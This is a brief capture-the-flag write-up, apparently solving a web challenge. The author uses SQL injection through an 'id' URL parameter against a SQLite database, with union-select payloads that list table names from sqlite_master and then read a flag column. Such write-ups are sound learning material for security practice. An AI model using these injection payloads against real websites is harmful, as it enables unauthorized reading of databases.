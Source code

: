 If you type a single quote in a url, you will see that dbms is sqlite.<br>
So let's try to fetch table names:
<pre>
../?id=0 union select 123, name from sqlite_master
</pre>
The output is:
<pre>
aatroll
</pre>
I doubt that there is a flag. Let's check for more tables:
<pre>
../?id=0 union select 123, name from sqlite_master where name != 'aatroll'
</pre>
And we get
<pre>
ajklshfajks
</pre>
I don't know how to check columns in sqlite so i just typed this and it worked for me:
<pre>
../?id=0 union select 123, flag from ajklshfajks
</pre>
GL